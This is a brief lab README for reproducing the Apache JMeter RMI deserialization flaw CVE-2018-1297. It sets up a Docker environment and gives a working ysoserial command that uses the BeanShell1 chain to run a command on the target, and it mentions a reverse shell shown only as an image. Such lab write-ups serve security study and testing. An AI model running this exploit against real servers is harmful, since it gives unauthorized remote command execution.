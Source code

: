 # Jmeter RMI Deserialization Command Execution Vulnerability (CVE-2018-1297)

Apache JMeter is a set of open source software written in the Java language for stress testing and performance testing by the Apache Software Foundation. There are deserialization vulnerabilities in 2.x and 3.x versions that an attacker can use to execute arbitrary commands on the target server.

## vulnerability environment

Run the vulnerability environment:

```
Docker-compose up -d
```

After the run is complete, an RMI service will be started and port 1099 will be listened to.

## Vulnerability recurrence

Use ysoserial directly to make use of it:

```
Java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 BeanShell1 'touch /tmp/success'
```

We are using the BeanShell1 utilization chain. Use `docker-compose exec jmeter bash` to enter the container, visible `/tmp/success` has been successfully created:

![](1.png)

Rebound shell:

![](2.png)